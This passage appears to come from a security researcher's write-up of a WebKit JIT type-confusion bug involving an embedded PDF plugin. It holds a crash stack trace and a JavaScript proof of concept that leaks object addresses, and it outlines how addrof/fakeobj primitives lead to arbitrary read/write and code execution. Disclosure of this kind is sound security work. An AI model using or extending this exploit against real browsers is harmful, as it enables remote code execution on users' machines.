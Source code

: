 ```txt
    #13 0x1cf41b681 in WebCore::HTMLPlugInElement::renderWidgetLoadingPlugin() const (.../WebKit/WebKitBuild/Release/WebCore.framework/Versions/A/WebCore:x86_64+0x35dd681)
    #14 0x1cf2ffc2d in WebCore::HTMLEmbedElement::renderWidgetLoadingPlugin() const (.../WebKit/WebKitBuild/Release/WebCore.framework/Versions/A/WebCore:x86_64+0x34c1c2d)
    #15 0x1cf41ad77 in WebCore::HTMLPlugInElement::pluginWidget(WebCore::HTMLPlugInElement::PluginLoadingPolicy) const (.../WebKit/WebKitBuild/Release/WebCore.framework/Versions/A/WebCore:x86_64+0x35dcd77)
    #16 0x1ce7b3e26 in WebCore::pluginScriptObjectFromPluginViewBase(WebCore::HTMLPlugInElement&, JSC::JSGlobalObject*) (.../WebKit/WebKitBuild/Release/WebCore.framework/Versions/A/WebCore:x86_64+0x2975e26)
    #17 0x1ce7b3dca in WebCore::pluginScriptObject(JSC::JSGlobalObject*, WebCore::JSHTMLElement*) (.../WebKit/WebKitBuild/Release/WebCore.framework/Versions/A/WebCore:x86_64+0x2975dca)
    #18 0x1ce7b4023 in WebCore::pluginElementCustomGetOwnPropertySlot(WebCore::JSHTMLElement*, JSC::JSGlobalObject*, JSC::PropertyName, JSC::PropertySlot&) (.../WebKit/WebKitBuild/Release/WebCore.framework/Versions/A/WebCore:x86_64+0x2976023)
    #19 0x1cca3e913 in WebCore::JSHTMLEmbedElement::getOwnPropertySlot(JSC::JSObject*, JSC::JSGlobalObject*, JSC::PropertyName, JSC::PropertySlot&) (.../WebKit/WebKitBuild/Release/WebCore.framework/Versions/A/WebCore:x86_64+0xc00913)
    #20 0x1e946dd6c in llint_slow_path_get_by_id (.../WebKit/WebKitBuild/Release/JavaScriptCore.framework/Versions/A/JavaScriptCore:x86_64+0x232ad6c)
```

Since any objects in the prototype chain is not marked with
"MayHaveIndexedAccessors", JIT assumes that this use of 'in' operator doesn't
have any transitions inside eliminating the array type checks after
transition.

```javascript
// In the frame of <iframe src="...pdf"></iframe>

function opt(arr) {
	arr[0] = 1.1;
	100 in arr; // 100 not exists in arr, making it check __proto__
	return arr[0]
}

for(var i = 0; i < 10000; i++) opt([1.1])
arr.__proto__ = document.querySelector('embed')

document.body.addEventListener('DOMSubtreeModified', () => {
	arr[0] = {}
})

document.body.removeChild(embed)
opt([1.1]) // leaks address of {} as double value
```

By constructing addrof/fakeobj primitive from this, we could make arbitrary
RW primitive to get code execution with the JIT-compiled JavaScript function.


- Exploitation

After getting addrof/fakeobj primitives, we convert it to more stable
addrof/fakeobj primitives by faking an object.
